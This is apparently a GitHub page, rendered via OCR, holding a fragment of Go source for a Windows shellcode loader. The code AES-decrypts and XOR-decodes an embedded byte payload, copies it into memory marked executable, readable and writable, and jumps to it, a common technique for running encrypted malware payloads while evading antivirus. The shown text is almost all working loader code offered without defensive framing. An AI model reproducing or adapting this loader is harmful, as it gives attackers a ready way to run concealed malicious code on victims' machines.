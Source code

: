 ```go
	// AES decryption
	aesDecrypted, _ := aesDecrypt(byteSlice, []byte(aesKey))

	// XOR decryption
	xoredData := make([]byte, len(aesDecrypted))
	for i := range aesDecrypted {
		xoredData[i] = aesDecrypted[i] ^ xorKey[i%len(xorKey)]
	}

	// Execute the decrypted code
	doWork(xoredData)
}

func pkcs5UnPadding(origData []byte) []byte {
	length := len(origData)
	unpadding := int(origData[length-1])
	return origData[:(length - unpadding)]
}

func aesDecrypt(crypted, key []byte) ([]byte, error) {
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil, err
	}

	blockSize := block.BlockSize()
	blockMode := cipher.NewCBCDecrypter(block, key[:blockSize])

	originalData := make([]byte, len(crypted))
	blockMode.CryptBlocks(originalData, crypted)

	originalData = pkcs5UnPadding(originalData)
	return originalData, nil
}

func doWork(something []byte) {

	// Allocate memory for the code
	mem, err := windows.VirtualAlloc(0, uintptr(len(something)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
	if err != nil {
		fmt.Println("VirtualAlloc failed with error:", err)
		panic("call to VirtualAlloc failed!")
	}

	// Write the code to the allocated memory
	var nBytesWritten uintptr
	success := windows.WriteProcessMemory(windows.CurrentProcess(), mem, &something[0], uintptr(len(something)), &nBytesWritten)
	if success != nil {
		fmt.Println("WriteProcessMemory failed with error:", success)
		panic("call to WriteProcessMemory failed!")
	}

	// Execute the code
	syscall.Syscall(mem, 0, 0, 0, 0)
}

```
